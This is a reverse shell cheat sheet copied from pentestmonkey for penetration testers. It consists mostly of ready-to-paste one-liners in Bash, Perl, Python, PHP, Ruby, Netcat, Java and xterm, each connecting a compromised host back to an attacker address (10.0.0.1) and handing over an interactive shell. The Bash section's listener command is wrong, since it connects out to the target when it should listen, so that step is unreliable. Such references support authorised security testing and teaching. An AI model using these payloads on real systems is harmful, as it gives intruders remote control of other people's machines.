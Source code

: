 # Reverse Shell Cheat Sheet

From [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) / https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet  

If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.

If it’s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port.  This page deals with the former.

Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared.

The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute “/bin/sh -i” with “cmd.exe”.

Each of the methods below is aimed to be a one-liner that you can copy/paste.  As such they’re quite short lines, but not very readable.

## Bash
Some versions of bash can send you a [reverse shell](http://www.gnucitizen.org/blog/reverse-shell-with-bash) / http://www.gnucitizen.org/blog/reverse-shell-with-bash (this was tested on Ubuntu 10.10):  
$${\color{green}On\ the\ target\ machine:}$$
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
$${\color{blue}Catch\ the\ shell\ on\ attack\ machine:}$$
```bash
nc -nv TARGET_IP 8080
```
## PERL
Here’s a shorter, feature-free version of the [perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell) / http://pentestmonkey.net/tools/web-shells/perl-reverse-shell:
```bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
There’s also an [alternative PERL revere shell here](http://www.plenz.com/reverseshell) / http://www.plenz.com/reverseshell.

## Python
This was tested under Linux / Python 2.7:
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
## PHP
This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…
```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
If you want a .php file to upload, see the more featureful and robust [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) / http://pentestmonkey.net/tools/web-shells/php-reverse-shell.

## Ruby
```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Netcat
Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.
```bash
nc -e /bin/sh 10.0.0.1 1234
```
If you have the wrong version of netcat installed, [Jeff Price points out here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) / http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498 that you might still be able to get your reverse shell back like this:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

## Java
```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
[Untested submission from anonymous reader]

## xterm
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.
```bash
xterm -display 10.0.0.1:1
```
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
```bash
Xnest :1
```
You’ll need to authorise the target to connect to you (command also run on your host):
```bash
xhost +targetip
```
## Further Reading
Also check out [Bernardo’s Reverse Shell One-Liners](http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html) / http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html.  He has some alternative approaches and doesn’t rely on /bin/sh for his Ruby reverse shell.
